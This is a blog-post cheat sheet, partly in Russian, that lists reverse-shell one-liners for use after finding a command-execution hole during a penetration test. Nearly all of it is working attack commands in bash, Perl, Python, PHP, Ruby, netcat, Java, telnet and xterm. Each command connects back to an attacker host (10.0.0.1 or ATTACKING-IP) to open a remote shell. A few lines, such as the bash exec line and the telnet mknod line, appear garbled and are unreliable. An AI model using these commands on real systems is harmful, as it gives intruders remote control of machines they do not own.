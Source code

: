 ```yaml
---
layout: post
categories: cheatsheets_rus
published: true
---
```

# Оглавление
{:.no_toc}

* toc
{:toc}

# Общие слова

Если тебе повезло обнаружить уязвимость выполнения команд во время теста на проникновение, довольно скоро тебе захочется интерактивный шелл.

Если не получается добавить новый аккаунт / SSH ключ / .rhosts файл, твой следующий шаг, вероятно, будет либо делать обратный шелл, либо привязывать оболочку к порту TCP. Эта страница поможет с первым.

Варианты делать обратный шелл ограничены языками сценариев, установленными в целевой системе, хотя также можете загрузить бинарник, если достаточно хорошо подготовиться.

Показанные примеры предназначены для Unix-подобных систем. Некоторые из приведенных ниже примеров также должны работать в Windows, если вы используете замену “/bin/sh -i” с “cmd.exe”.

Почти каждый из методов приведенных ниже предназначен для использования в качестве одной строки которую можно копировать/вставлять. Это довольно короткие строки, но не очень читаемые.

# Bash

Некоторые версии bash могут помочь с реверс шеллом (тестированно на Ubuntu 10.10):
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
~~~
exec /bin/bash 0&0 2>&0
~~~
# PERL

Вот короткая, не зависищая от фич версия  perl реверс шелла:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Also for Windows

~~~
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~
~~~
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

# Python

This was tested under Linux / Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

[Untested submission from anonymous reader]

# Telnet 

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
~~~
~~~
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
~~~

Remember to listen on 443 on the attacking machine also.

# xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

	xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

	Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

	xhost +targetip
